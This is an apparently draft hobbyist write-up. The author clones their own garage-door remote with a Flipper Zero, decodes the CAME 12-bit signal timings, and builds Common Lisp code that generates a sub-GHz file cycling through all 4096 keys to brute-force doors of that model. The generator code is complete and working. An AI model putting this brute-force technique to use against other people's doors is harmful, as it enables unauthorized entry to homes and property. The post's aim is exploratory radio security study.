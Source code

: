 #+title: Generating sub-GHz brute-force files for the Flipper Zero (draft)
#+options: num:nil ^:{}

* Introduction
:PROPERTIES:
:CREATED:  [2024-02-17 Sat 16:10]
:END:

As [[https://en.wikipedia.org/wiki/Flipper_Zero][Wikipedia]], puts it:

#+begin_quote
The Flipper Zero is a portable [...] multi-functional device developed
for interaction with access control systems.
#+end_quote

Here it is in all its glory:

#+attr_html: :width 600 :style border:2px solid black;
[[file:flipper/flipper.jpg]]

More specifically, the Flipper is capable of transmitting and
receiving radio signals in the 300–900 MHz range using a [[https://www.ti.com/product/CC1101][Texas
Instruments CC1101]] transceiver.

In this note, we will have fun with my garage door remote:

- We will clone it using the [[https://docs.flipper.net/sub-ghz][Sub-GHz application]] and analyze the
  corresponding =.sub= file.

- We will capture a raw signal from the same remote and analyze the
  raw =.sub= file.

- We will try to build the smallest signal that can open my garage
  door.

- We will use the knowledge we gathered to write a program that can
  generate a =.sub= file to brute-force the garage door (or probably
  any garage door of the same model).

*Please note that the key has been altered* in the text, files and
images below (because I am a paranoid freak and I like [[https://www.gimp.org/][GIMP]]).

* Cloning the remote
:PROPERTIES:
:CREATED:  [2024-02-17 Sat 16:05]
:END:

Cloning the remote is very easy using the Sub-GHz application from the
Flipper. By default, the Flipper is set to read on 433.92 MHz [[https://en.wikipedia.org/wiki/Amplitude_modulation][AM]], a
frequency and modulation used by many remotes.

The screenshots below were made with the very nice [[https://github.com/flipperdevices/qFlipper][qFlipper]]
application.

1. Go to Main Menu -> Sub-GHz.

   #+attr_html: :style border:2px solid black;
   [[file:flipper/sub_ghz_menu.png]]

2. Press "Read".

   #+attr_html: :style border:2px solid black;
   [[file:flipper/read_menu.png]]

3. The Flipper will wait for a signal.

   #+attr_html: :style border:2px solid black;
   [[file:flipper/capture.png]]

4. Press the button on the remote control you want to read. If
   successful, a screen like this will be displayed:

   #+attr_html: :style border:2px solid black;
   [[file:flipper/captured_key1.png]]

   Clicking on it will display more details:

   #+attr_html: :style border:2px solid black;
   [[file:flipper/captured_key2.png]]

   The "Yek", as its name suggests, is simply the reversed key:

   - 0x356 in binary is 0b001101010110 (on 12 bits -- important for
     reversing it!)
   - The reversed sequence is 0b011010101100 (thank you [[https://www.gnu.org/software/emacs/][Emacs]][fn:1])
   - Which is indeed 0x6AC in hexadecimal.

   You can play with a converter such as [[https://www.rapidtables.com/convert/number/binary-to-hex.html][this one]].

* Analyzing the =.sub= file
:PROPERTIES:
:CREATED:  [2024-02-17 Sat 16:10]
:END:

Here is the content of the resulting =.sub= file.

#+begin_example
Filetype: Flipper SubGhz Key File
Version: 1
Frequency: 433920000
Preset: FuriHalSubGhzPresetOok650Async
Protocol: CAME
Bit: 12
Key: 00 00 00 00 00 00 03 56
#+end_example

A documentation about this file format is available [[https://github.com/flipperdevices/flipperzero-firmware/blob/dev/documentation/file_formats/SubGhzFileFormats.md][here]]; we will
quote it in the sections below.

As stated above, the key is displayed in hexadecimal:

- Hex -> 0x356
- Dec -> 0d854
- Bin -> 0b001101010110

Now that we know the key, it would be interesting to check what a raw
=.sub= file looks like, and see if we can gather enough knowledge from
it to find the key "by hand".

* Capturing a raw signal from the remote
:PROPERTIES:
:CREATED:  [2024-02-17 Sat 16:23]
:END:

This time, we're going to replicate the process above but using the
"Read RAW" menu.

1. In the Sub-GHz application, press "Read RAW".

   #+attr_html: :style border:2px solid black;
   [[file:flipper/read_raw_menu.png]]

2. The Flipper will be waiting for you to record.

   #+attr_html: :style border:2px solid black;
   [[file:flipper/capture_raw.png]]

3. Press REC then Stop, and save the raw file.

   #+attr_html: :style border:2px solid black;
   [[file:flipper/capture_raw_signal_2.png]]

* Analyzing the raw =.sub= file
:PROPERTIES:
:CREATED:  [2024-02-17 Sat 23:17]
:END:

This is where things start to be interesting. Here is an overview of a
*rectangular* part of the generated =.sub= file -- i.e., in the
original file, all lines continue to the right:

#+begin_example
  Filetype: Flipper SubGhz RAW File
  Version: 1
  Frequency: 433920000
  Preset: FuriHalSubGhzPresetOok650Async
  Protocol: RAW
  RAW_Data: 167 -730 199 -66 165 -332 131 -196 429 -98 161 -98 65 -164 129 -100 3197 -100 2045 -198 391 -64 65 -330 625 -66 129 -66 493 -66 395 -132 3023 -66 195 -100 2121 -66 6821 -8334 97 -268
  RAW_Data: 3469 -398 131 -334 99 -298 365 -66 65 -232 1759 -66 531 -132 65 -232 8289 -8206 131 -1884 65 -1060 133 -728 97 -166 99 -266 165 -198 265 -100 229 -68 1593 -134 261 -294 395 -98 14361
  RAW_Data: 497 -98 63 -164 229 -166 523 -166 7011 -10160 229 -1512 131 -1186 131 -66 395 -626 1869 -130 293 -66 423 -66 229 -166 195 -132 721 -132 4779 -12902 99 -360 97 -166 163 -196 261 -230
  RAW_Data: 427 -98 2085 -164 10371 -3050 197 -262 131 -132 161 -460 229 -262 1559 -166 167 -68 99 -66 165 -100 197 -330 99 -98 199 -100 65 -266 597 -134 363 -66 9559 -6360 229 -196 263 -132 231
  RAW_Data: 303 -610 277 -310 603 -612 281 -628 303 -314 573 -12714 319 -316 613 -322 561 -644 277 -618 309 -306 599 -610 277 -299 632 -610 279 -310 601 -612 279 -628 305 -314 571 -12724 321 -33
  RAW_Data: 311 -590 317 -290 595 -612 313 -285 606 -598 315 -312 599 -616 283 -620 313 -288 593 -12716 343 -324 569 -296 601 -612 281 -628 305 -316 573 -620 295 -319 604 -596 309 -310 597 -610
  RAW_Data: 581 -12718 309 -308 615 -320 569 -612 309 -616 279 -308 603 -612 313 -305 596 -614 279 -310 601 -614 279 -628 305 -314 571 -12722 319 -316 613 -320 563 -646 275 -618 279 -310 601 -61
  RAW_Data: 289 -316 611 -590 309 -596 295 -338 589 -12694 351 -306 565 -340 581 -606 289 -632 283 -310 599 -620 319 -289 600 -606 319 -292 573 -618 297 -638 283 -306 599 -12708 345 -326 567 -31
  RAW_Data: 315 -290 595 -614 315 -315 586 -600 291 -320 613 -590 309 -594 297 -338 579 -12708 359 -290 597 -290 611 -622 277 -634 257 -324 613 -592 307 -299 628 -576 319 -324 567 -612 307 -618
  RAW_Data: 921 -164 1683 -5334 97 -3612 99 -266 165 -100 299 -66 199 -730 131 -100 495 -100 895 -98 331 -264 231 -200 663 -66 131 -232 133 -200 399 -100 265 -100 165 -100 199 -4956 99 -1490 97
  RAW_Data: 465 -100 1029 -298 595 -68 131 -364 231 -462 99 -294 99 -166 6425 -7818 65 -726 133 -730 99 -200 131 -560 99 -132 97 -230 65 -2168 131 -132 195 -430 197 -200 67 -464 1193 -132 1659 -
  RAW_Data: 1357 -66 1085 -200 827 -198 361 -230 6813 -9016 97 -1906 97 -3042 65 -762 65 -766 1327 -164 197 -66 359 -66 131 -100 131 -66 229 -7024 65 -6802 459 -660 97 -232 99 -134 531 -68 199 -
  RAW_Data: 131 -168 895 -98 1563 -100 429 -298 8543 -9968 165 -298 65 -98 165 -130 167 -98 2509 -200 399 -66 929 -66 10157 -6164 65 -198 593 -68 465 -528 1317 -100 165 -66 265 -68 1027 -266 99
  RAW_Data: 5145 -7952 65 -992 131 -822 65 -66 99 -198 99 -1726 65 -666 99 -366 65 -100 297 -100 363 -200 361 -198 1285 -66 2521 -66 165 -66 9325 -5252 133 -198 201 -600 65 -200 499 -66 1093 -13
  RAW_Data: 165 -596 133 -1228 65 -1460 165 -168 97 -630 133 -534 99 -132 1563 -66 167 -66 535 -64 199 -166 727 -200 5575 -8548 65 -464 65 -328 63 -330 63 -3272 65 -166 197 -100 197 -66 133 -200
#+end_example

It is hard to locate a strong signal in the =.sub= file because only
*durations* are kept. According to the docs:

#+begin_quote
  RAW_Data, contains an array of timings, specified in microseconds.
#+end_quote

But at first glance, and knowing that I'm indeed looking for a signal,
it appears there is a large amount of 3-digit numbers in the central
part of the file. So this part might correspond to the time during
which the signal from the remote was received, hence the very regular
pattern of "signals of hundreds of microseconds". The parts above and
below would correspond to the noise we see in the last screenshot from
the previous section.

We can strenghten that first impression using a regex search in our
text editor that highlights all 3-digits number, either positive or
negative:

#+attr_html: :style border:2px solid black; :width 600
[[file:flipper/3-digit.png]]

Yep, lots of consecutive 3-digits numbers. Moreover, it seems that the
duration of signals in this part of the file is always around 300 or
600 microseconds. Some values in the 12 ms range also appear
regularly; they might mark the beginning or end of a code.

Let's isolate a few groups according to that logic and put them on
their own line:

#+begin_example
-12714 319 -316 613 -322 561 -644 277 -618 309 -306 599 -610 277 -299 632 -610 279 -310 601 -612 279 -628 305 -314 571
-12716 343 -324 569 -296 601 -612 281 -628 305 -316 573 -620 295 -319 604 -596 309 -310 597 -610 281 -612 291 -340 573
-12718 309 -308 615 -320 569 -612 309 -616 279 -308 603 -612 313 -305 596 -614 279 -310 601 -614 279 -628 305 -314 571
-12694 351 -306 565 -340 581 -606 289 -632 283 -310 599 -620 319 -289 600 -606 319 -292 573 -618 297 -638 283 -306 599
-12708 359 -290 597 -290 611 -622 277 -634 257 -324 613 -592 307 -299 628 -576 319 -324 567 -612 307 -618 281 -326 595
#+end_example

Pretty regular, and there are 13 couples! It could be 1 preamble (12
ms of silence followed by 300 µs of signal) followed the 12 bits we're
looking for.

Let's test this hypothesis. I'll use SIG in couples where the SIGNAL
has the longer duration, and SIL in couples where the SILENCE has the
longer duration. Then I'll give SIG and SIL either a value of 0 or 1.

#+begin_example
                    0        0        1        1        0        1        0        1        0        1        1        0
                    1        1        0        0        1        0        1        0        1        0        0        1
                  SIG      SIG      SIL      SIL      SIG      SIL      SIG      SIL      SIG      SIL      SIL      SIG
  -12714 319 -316 613 -322 561 -644 277 -618 309 -306 599 -610 277 -299 632 -610 279 -310 601 -612 279 -628 305 -314 571
  -12716 343 -324 569 -296 601 -612 281 -628 305 -316 573 -620 295 -319 604 -596 309 -310 597 -610 281 -612 291 -340 573
  -12718 309 -308 615 -320 569 -612 309 -616 279 -308 603 -612 313 -305 596 -614 279 -310 601 -614 279 -628 305 -314 571
  -12694 351 -306 565 -340 581 -606 289 -632 283 -310 599 -620 319 -289 600 -606 319 -292 573 -618 297 -638 283 -306 599
  -12708 359 -290 597 -290 611 -622 277 -634 257 -324 613 -592 307 -299 628 -576 319 -324 567 -612 307 -618 281 -326 595
#+end_example

Hmm, see the binary value above? 0b001101010110, or 0x356, or 0d854!
That's our key! So here is what we learned:

- A 1 is a silence of approx. 600 µs followed by a signal of
  approx. 300 µs.

- A 0 is the other way around.

- There is a preamble of 13 ms at the beginning of every code -- 12,7
  ms of silence followed by 300 µs ms of signal.

These values might heavily depend on the peculiarities of my personal
remote, but since it works, we are obviously in the protocol's margin
of error.

Now the question arises: knowing all this, what if we could simply
generate ALL possible 12-bit combinations, write them to a =.sub=
file, and brute-force our garage door? Well, before trying to do that,
a few questions must be answered.

* Generating the smallest working signal
:PROPERTIES:
:CREATED:  [2024-02-19 Mon 18:51]
:END:

In order to generate a =.sub= file for a brute-force attack, we first
need to understand what are the minimal conditions for the garage door
to open, using the correct key:

- How many times does the key need to be sent in sequence for the door
  to open?

- Can we alter the duration of signals to shorten the overall duration
  of an "opening" signal?

** Preliminary tests
:PROPERTIES:
:CREATED:  [2024-02-21 Wed 22:43]
:END:

- =test1.sub= :: The original raw file, to confirm that playing the
  original signal from the remote can open the garage door.

- =test2.sub= :: Une seconde de signal. Refaire le calcul ci-dessous
  ici pour le nombre de répétitions à insérer (40, 10 lignes de 4
  clés).

  #+begin_example
    -12718 309 -308 615 -320 569 -612 309 -616 279 -308 603 -612 313 -305 596 -614 279 -310 601 -614 279 -628 305 -314 571
  #+end_example

  We know the key is correct, but this step ensures that the key
  selected from the original file is "clean" -- no weird duration
  artefact(s) that would make our test file fail.

** Repetitions
:PROPERTIES:
:CREATED:  [2024-02-19 Mon 21:12]
:END:

De moins en moins de répétitions de clé correcte dans le fichier. On
l'entoure de 20 clés "zéro" :

- 20, 20, 20
- 20, 10, 20
- 20,  5, 20
- etc., bissection

To find the smallest number of repetitions, I prepared a set of raw
files:

- =test1.sub= :: The original raw file, to confirm that simply
  repeating the original signal from the remote can open the garage
  door.

- After selecting a single signal from the original file

  #+begin_example
    -12718 309 -308 615 -320 569 -612 309 -616 279 -308 603 -612 313 -305 596 -614 279 -310 601 -614 279 -628 305 -314 571
  #+end_example

- A set of =.sub= files containing the correct key, repeated n times,
  and surrounded by > 1 second of the code 0b000000000000[fn:2]. The key
  was taken from the original =.sub= file and the "zero" signal was
  created simply by changing the 1s to 0s in the same key. Here is the
  signal that will be repeated:

  #+begin_example
    -12718 309 -308 615 -320 569 -612 309 -616 279 -308 603 -612 313 -305 596 -614 279 -310 601 -614 279 -628 305 -314 571
  #+end_example

  And the "zero" code:

  #+begin_example
    -12718 309 -308 615 -320 569 -309 612 -279 616 -308 603 -313 612 -305 596 -279 614 -310 601 -279 614 -305 628 -314 571
  #+end_example

  The duration of the zero signal is approx.: 13000 + 12 * 900 (a 13
  ms preamble followed by 12 periods of 900 µs) = 23,8 ms. By rounding
  that to 25 ms, we need to surround the repetition with at least 40
  "zero" signals to get at least 1s of signal before and after it. I
  will respect the line length of the original =.sub= file.

Here are the results:

#+attr_html: :align center
|-------------------+-----------------|
| File              | Door is opening |
|-------------------+-----------------|
| Original raw file | Yes             |
| n = 1             | No              |
| n = 2             | No              |
| n = 3             | Yes             |
|-------------------+-----------------|

From these tests it seems that repeating the signal *3 times*
consecutively is enough to open this particular garage door.

** Duration of signals
:PROPERTIES:
:CREATED:  [2024-02-19 Mon 21:13]
:END:

TODO

* Generating a brute-force =.sub= file
:PROPERTIES:
:CREATED:  [2024-02-18 Sun 01:00]
:END:

Here we'll be writing a script in [[https://en.wikipedia.org/wiki/Common_Lisp][Common Lisp]], step-by-step. I am not
a strong Lisp programmer, but I just [[file:../themes/lisp.org][love Lisp]] :) The script will be
tailored to our need so I won't bother writing defensive or even clean
code. The script is available on [[https://github.com/alecigne/flipperzero-subghz-bruteforce][GitHub]].

Let's start from our key: 854 in decimal value. It would be nice to
obtain a list of bits from it. We can build this list recursively by
accumulating the remainders of a succession of divisions by 2,
stopping when the integer part is 0. ~floor~ will work since we deal
with positive numbers here:

#+begin_src lisp :results value verbatim :exports both
  (defun int-to-bit-list (n acc)
    (multiple-value-bind (q r) (floor n 2)
      (if (zerop q) (cons r acc) (int-to-bit-list q (cons r acc)))))

  (int-to-bit-list 854 '())
#+end_src

#+RESULTS:
: (1 1 0 1 0 1 0 1 1 0)

It is always nicer to hide the accumulator from the user by using a
local, recursive helper function with ~labels~:

#+begin_src lisp :results value verbatim :exports both
  (defun int-to-bit-list (n)
    (labels ((helper (n acc)
               (multiple-value-bind (q r) (floor n 2)
                 (if (zerop q) (cons r acc) (helper q (cons r acc))))))
      (helper n '())))

  (int-to-bit-list 854)
#+end_src

#+RESULTS:
: (1 1 0 1 0 1 0 1 1 0)

Our result is on 10 bits. We need 12 bits, so let's "prepend" it with
0s. Again, I'll do it recursively, stopping when the list reaches the
desired size:

#+begin_src lisp :results value verbatim :exports both
  (defun prepend (lst &key (elt nil) (final-size 0))
    (let ((current-size (length lst)))
      (if (>= current-size final-size)
          lst
          (prepend (cons elt lst) :elt elt :final-size final-size))))

  (prepend '(a b c) :elt 'x :final-size 5)
#+end_src

#+RESULTS:
: (X X A B C)

Wrapping up:

#+begin_src lisp :results value verbatim :exports both
  (prepend (int-to-bit-list 854) :elt 0 :final-size 12)
#+end_src

#+RESULTS:
: (0 0 1 1 0 1 0 1 0 1 1 0)

Now that we know how to obtain a bit list on 12 bits from a number,
we're going to convert it into a *signal*. A signal will be a list
made of a preamble followed by 12 couples of values depending on the
corresponding source bits. So we'll need two functions:

- ~bit-to-signal~ will convert a single bit to a signal
- ~bit-list-to-signal~ will do it on a bit list, producing a valid
  signal (i.e. preamble + 12 couples of durations):

#+begin_src lisp
  (defun bit-to-signal (bit)
    (cond ((= bit 0) (list -300 600))
          ((= bit 1) (list -600 300))
          (t nil)))

  (defun bit-list-to-signal (bit-list)
    (let ((full-bit-list (prepend bit-list :elt 0 :final-size 12)))
      (append '(-12700 300) (mapcan #'bit-to-signal full-bit-list))))
#+end_src

#+RESULTS:
: BIT-LIST-TO-SIGNAL

I am hardcoding the signal values for this first quick & dirty,
exploratory version. We'll write tests later to pin the behaviour, and
then refactor :)

Let's try out our function:

#+begin_src lisp :results value verbatim :exports both
  (bit-list-to-signal '(1 0 1))
#+end_src

#+RESULTS:
: (-12700 300 -300 600 -300 600 -300 600 -300 600 -300 600 -300 600 -300 600 -300 600 -300 600 -600 300 -300 600 -600 300)

Let's do it for a number by defining ~int-to-signal~:

#+begin_src lisp :results value verbatim :exports both
  (defun int-to-signal (n)
    (bit-list-to-signal (int-to-bit-list n)))

  (int-to-signal 854)
#+end_src

#+RESULTS:
: (-12700 300 -300 600 -300 600 -600 300 -600 300 -300 600 -600 300 -300 600 -600 300 -300 600 -600 300 -600 300 -300 600)

Let's compare that with a signal from our raw file above:

#+begin_example
-12700 300 -300 600 -300 600 -600 300 -600 300 -300 600 -600 300 -300 600 -600 300 -300 600 -600 300 -600 300 -300 600
-12714 319 -316 613 -322 561 -644 277 -618 309 -306 599 -610 277 -299 632 -610 279 -310 601 -612 279 -628 305 -314 571
#+end_example

That looks correct!

Now we'll leave the List Paradise to enter the String Hell -- but hey,
we need a =.sub= file after all!

First we need a function that transforms a signal to a string:

#+begin_src lisp :results value verbatim :exports both
  (defun signal-to-string (sig)
    (format nil "~{~A ~}" sig))

  (signal-to-string (int-to-signal 854))
#+end_src

#+RESULTS:
: "-12700 300 -300 600 -300 600 -600 300 -600 300 -300 600 -600 300 -300 600 -600 300 -300 600 -600 300 -600 300 -300 600 "

I won't detail the ~format~ recipe here, [[https://gigamonkeys.com/book/a-few-format-recipes][Peter Seibel did it better]] in
Practical Common Lisp.

We can now write the ~generate-sub-file~ function that will insert a
header, and then for every key, insert a signal line prefixed with a
=RAW_Data:= string.

#+begin_src lisp
  (defun generate-sub-file (filename &key ((:from start-key)) ((:to end-key)))
    (with-open-file (f filename :direction :output :if-exists :supersede)
      (format f "Filetype: Flipper SubGhz RAW File
  Version: 1
  Frequency: 433920000
  Preset: FuriHalSubGhzPresetOok650Async
  Protocol: RAW~%")
      (loop for key from start-key to end-key do
        (format f "RAW_Data: ~a~%" (signal-to-string (int-to-signal key))))))

  (generate-sub-file "bruteforce.sub" :from 0 :to 4095)
#+end_src

Voilà! Again, the script is available on [[https://github.com/alecigne/flipperzero-subghz-bruteforce][GitHub]].

* Brute-forcing the garage door
:PROPERTIES:
:CREATED:  [2024-02-18 Sun 18:03]
:END:

After uploading the =.sub= file on the Flipper Zero, we're ready to
test it on our garage door.

* Footnotes

[fn:1] In Emacs Lisp:

#+begin_src emacs-lisp
  (defun alc-reverse-region (beg end)
   (interactive "r")
   (let ((region (buffer-substring beg end)))
     (delete-region beg end)
     (insert (nreverse region))))
#+end_src

[fn:2] I prefer to embed the key in some kind of signal for two
reasons:

- To "simulate" the conditions of a brute-force attack

- To avoid holding the Flipper's "send" button by accident, which
  could send bursts of the same signal and distort the results.
